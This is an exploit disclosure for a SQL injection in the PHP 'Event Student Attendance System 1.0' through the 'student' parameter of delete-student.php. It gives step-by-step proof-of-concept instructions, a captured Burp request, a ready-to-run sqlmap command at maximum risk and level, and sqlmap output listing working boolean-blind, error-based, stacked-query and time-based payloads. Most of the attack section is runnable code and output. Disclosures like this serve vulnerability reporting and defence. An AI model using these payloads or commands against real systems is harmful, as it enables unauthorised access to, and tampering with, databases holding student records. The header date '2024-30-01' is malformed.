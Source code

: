 # Event Student Attendance System - SQL Injection
+ *Exploit Title:* Event Student Attendance System - SQL Injection
+ *Date:* 2024-30-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17139/event-student-attendance-system-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17139&title=Event+Student+Attendance+System+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## References: 
+ https://portswigger.net/web-security/sql-injection

## Description:
Event Student Attendance System 1.0, allows SQL Injection via the 'student' parameter in `http://localhost/event-student-attendance/endpoint/delete-student.php?student=3`. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event-student-attendance"
+ Select any student and press the delete-student button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /event-student-attendance/endpoint/delete-student.php?student=3 HTTP/1.1
Host: localhost
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'student' parameter to dump the database.
```
python sqlmap.py -r r.txt -p student --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: student (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: student=3' RLIKE (SELECT (CASE WHEN (6164=6164) THEN 3 ELSE 0x28 END))-- gVVq

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: student=3' AND EXTRACTVALUE(1609,CONCAT(0x5c,0x71787a6271,(SELECT (ELT(1609=1609,1))),0x7176787871))-- qYlQ

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: student=3';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student=3' AND (SELECT 8964 FROM (SELECT(SLEEP(5)))RifB)-- PFRp
---
[16:48:22] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[16:48:22] [INFO] fetching current database
[16:48:22] [INFO] retrieved: 'event_attendance_db'
current database: 'event_attendance_db'
```
+ current database : `event_attendance_db`
  
  ![Ekran görüntüsü 2024-01-30 165509](https://github.com/tubakvgc/CVE/assets/74067343/bd372ec7-a7f3-4200-b030-ece2d90ab0f5)


  

